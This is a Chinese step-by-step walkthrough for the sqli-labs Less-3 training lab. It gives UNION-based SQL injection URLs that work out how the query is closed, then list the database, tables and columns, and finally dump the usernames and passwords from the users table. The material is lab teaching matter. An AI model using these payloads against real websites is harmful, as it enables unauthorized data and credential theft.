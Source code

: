 ```yaml
---
title: Less - 03
date: 2023-03-13T12:49:42Z
lastmod: 2023-03-13T13:02:56Z
---
```


# Less - 03

---

# 通关教程

---

## 1、判断闭合

---

```http
http://127.0.0.1/sql1/Less-3/?id=1
http://127.0.0.1/sql1/Less-3/?id=1'
http://127.0.0.1/sql1/Less-3/?id=1')--+
```

​![image](assets/image-20230313125318-ybqqs7a.png)​

​![image](assets/image-20230313125438-63uxj84.png)​

## 2、查看当前数据库和用户

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,database(),user()--+
```

​![image](assets/image-20230313125613-d5r3drk.png)​

## 3、查看数据表

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230313125810-pk3jx5d.png)​

## 4、查看字段名

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​![image](assets/image-20230313125907-5ffgmcz.png)​

## 5、查看字段的值

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(username,password) from security.users)--+
```

​![image](assets/image-20230313130245-udy5u21.png)​

‍
